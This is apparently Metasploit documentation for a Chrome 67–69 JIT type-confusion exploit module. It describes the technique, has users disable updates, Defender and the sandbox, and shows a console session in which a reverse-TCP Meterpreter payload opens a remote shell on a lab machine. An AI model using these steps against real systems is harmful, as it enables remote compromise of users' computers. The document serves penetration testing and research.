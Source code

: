 This modules exploits a type confusion in Google Chromes JIT compiler. The
Object.create operation can be used to cause a type confusion between a
PropertyArray and a NameDictionary. The type confusion can be used to construct
a arbitrary read/write memory primitive, which is used to write shellcode into
rwx region of a WebAssembly object.

**This module does not contain an exploit to escape the sandbox, so you must
launch Google Chrome with the --no-sandbox option**

## Vulnerable Application

The module is compatible with any 64bit Google Chrome (version 67, 68 or 69), on
any platform (macOS, Linux or Windows), however the code that writes the
shellcode into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://www.filepuma.com/download/google_chrome_64bit_69.0.3497.100-20128/](https://www.filepuma.com/download/google_chrome_64bit_69.0.3497.100-20128/)

You should ensure that application does not update itself to the latest version
(by disabling automatic updates or simply not connecting to the internet). You
may also need to disable Windows Defender.

## Verification Steps

1. Do: `use exploit/multi/browser/chrome_object_create`
2. Do: `set payload windows/x64/meterpreter/reverse_tcp`
3. Do: `set LHOST [IP]`
4. Do: `set SRVHOST [IP]`
5. Do: `set URIPATH / [PATH]`
6. Do: `run`

## Scenarios

### Windows 10 and Google Chrome 69.0.3497.100 with --no-sandbox

Start Google Chrome without a sandbox:
`"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox`

```
msf5 > use exploit/multi/browser/chrome_object_create
msf5 exploit(multi/browser/chrome_object_create) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_object_create) > set URIPATH /
URIPATH => /
msf5 exploit(multi/browser/chrome_object_create) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/browser/chrome_object_create) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_object_create) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/browser/chrome_object_create) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     chrome_object_create - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
[*] Sending stage (206403 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49682) at 2020-02-29 14:29:06 +0800

msf5 exploit(multi/browser/chrome_object_create) > sessions 1
[*] Starting interaction with 1...

meterpreter > pwd
C:\Program Files (x86)\Google\Chrome\Application\69.0.3497.100
meterpreter >
```
